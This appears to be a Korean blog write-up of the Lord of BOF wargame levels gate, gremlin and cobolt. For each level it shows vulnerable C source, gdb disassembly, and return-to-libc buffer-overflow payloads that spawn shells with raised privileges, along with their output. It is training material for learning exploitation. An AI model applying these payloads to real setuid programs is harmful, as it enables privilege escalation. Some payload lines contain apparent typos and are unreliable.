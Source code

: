 ```yaml
---
layout: post
title:  "LOB-Writeup"
tag:   Analysis
categories: pwnable
categories: persu
---
```


## gate

### 1. source code
### 2. gdb
### 3. exploit code



## gate

### 1. source code
```c
int main(int argc, char *argv[])
{
    char buffer[256];
    if(argc < 2){
        printf("argv error\n");
        exit(0);
    }
    strcpy(buffer, argv[1]);
    printf("%s\n", buffer);
}
```

### 2. gdb
```
0x8048430 <main>:	push   %ebp
0x8048431 <main+1>:	mov    %ebp,%esp
0x8048433 <main+3>:	sub    %esp,0x100
0x8048439 <main+9>:	cmp    DWORD PTR [%ebp+8],1
0x804843d <main+13>:	jg     0x8048456 <main+38>
0x804843f <main+15>:	push   0x80484e0
0x8048444 <main+20>:	call   0x8048350 <printf>
0x8048449 <main+25>:	add    %esp,4
0x804844c <main+28>:	push   0
0x804844e <main+30>:	call   0x8048360 <exit>
0x8048453 <main+35>:	add    %esp,4
0x8048456 <main+38>:	mov    %eax,DWORD PTR [%ebp+12]
0x8048459 <main+41>:	add    %eax,4
0x804845c <main+44>:	mov    %edx,DWORD PTR [%eax]
0x804845e <main+46>:	push   %edx
0x804845f <main+47>:	lea    %eax,[%ebp-256]
0x8048465 <main+53>:	push   %eax
0x8048466 <main+54>:	call   0x8048370 <strcpy>
0x804846b <main+59>:	add    %esp,8
0x804846e <main+62>:	lea    %eax,[%ebp-256]
0x8048474 <main+68>:	push   %eax
0x8048475 <main+69>:	push   0x80484ec
0x804847a <main+74>:	call   0x8048350 <printf>
0x804847f <main+79>:	add    %esp,8
0x8048482 <main+82>:	leave
0x8048483 <main+83>:	ret
```

### 3. exploit code
```
./gremlin `python -c 'print "A"*260+"\xe0\x8a\x05\x40"+"AAAA"+"\xf9\xbf\x0f\x40"'`
bash$ my-pass
euid = 501
hello bof world
```
이번 취약점은 strcpy에 buf 길이 검증을 하지 않아 발생하는 BoF.
esp는 ebp-256에 위치하고 있기 때문에 SFP(4)까지 A 를 입력하고  RET 위치에 RLT를 이용하여 system함수를 넣게 된다. 이후 4byte dummy를 생성하고, 인자값인 /bin/sh를 넣게 된다.


## gremlin

### 1. source code

  ```c
int main(int argc, char *argv[])
{
    char buffer[16];
    if(argc < 2){
        printf("argv error\n");
        exit(0);
    }
    strcpy(buffer, argv[1]);
    printf("%s\n", buffer);
}
```

### 2. gdb
```asm
0x8048430 <main>:	push   %ebp
0x8048431 <main+1>:	mov    %ebp,%esp
0x8048433 <main+3>:	sub    %esp,16
0x8048436 <main+6>:	cmp    DWORD PTR [%ebp+8],1
0x804843a <main+10>:	jg     0x8048453 <main+35>
0x804843c <main+12>:	push   0x80484d0
; "argv error\n"
0x8048441 <main+17>:	call   0x8048350 <printf>
0x8048446 <main+22>:	add    %esp,4
0x8048449 <main+25>:	push   0
0x804844b <main+27>:	call   0x8048360 <exit>
0x8048450 <main+32>:	add    %esp,4
0x8048453 <main+35>:	mov    %eax,DWORD PTR [%ebp+12]
0x8048456 <main+38>:	add    %eax,4
0x8048459 <main+41>:	mov    %edx,DWORD PTR [%eax]
0x804845b <main+43>:	push   %edx
0x804845c <main+44>:	lea    %eax,[%ebp-16]
0x804845f <main+47>:	push   %eax
0x8048460 <main+48>:	call   0x8048370 <strcpy>
0x8048465 <main+53>:	add    %esp,8
0x8048468 <main+56>:	lea    %eax,[%ebp-16]
0x804846b <main+59>:	push   %eax
; buffer
0x804846c <main+60>:	push   0x80484dc
; "%s\n"
0x8048471 <main+65>:	call   0x8048350 <printf>
0x8048476 <main+70>:	add    %esp,8
0x8048479 <main+73>:	leave
0x804847a <main+74>:	ret
```
### 3. exploit code
```
Starting program: /home/gremlin/test `python -c 'print "A"*22'`
AAAAAAAAAAAAAAAAAAAAAA

Breakpoint 1, 0x804847a in main ()
(gdb) ni
0x40004141 in print_missing_version (errcode=Cannot access memory at address 0x41414149
) at rtld.c:1176
1176	rtld.c: No such file or directory.
(gdb) x/x $eip
0x40004141 <print_missing_version+53>:	0xcd9f838d
```
22개의 A 입력 시 eip에 2개가 들어가게 된다. 즉 24 byte까지 넣어야 하는데,
현재 왜 20 위치 부터 eip가 시작되는지 모르겠다.
-> 아 실수 ..... ebp-16 위치부터 buffer 값을 입력받는다.
0 - 16 까지 buffer
16 - 20 까지 SFP
20 - 24 까지 RET
이렇게 되는 구나


```exploit
./cobolt `python -c 'print "A"*20+"\xe0\x8a\x05\xAAA"+"\xf9\xbf\x0f\x40"'`
bash$ id

uid=501(gremlin) gid=501(gremlin) euid=502(cobolt) egid=502(cobolt)
groups=501(gremlin)

bash$ my-pass

euid = 502

hacking exposed
```


## cobolt

### 1. source code
```c
int main()
{
    char buffer[16];
    gets(buffer);
    printf("%s\n", buffer);
}
```
### 2. gdb
### 3. exploit code


```
(python -c 'print "A"*20+"\xe0\x8a\x05\x40"+"AAAA"+"\x05\x40"+"AAAA"+"\xf9\xbf\x0f\x40"';cat)|./goblin
```
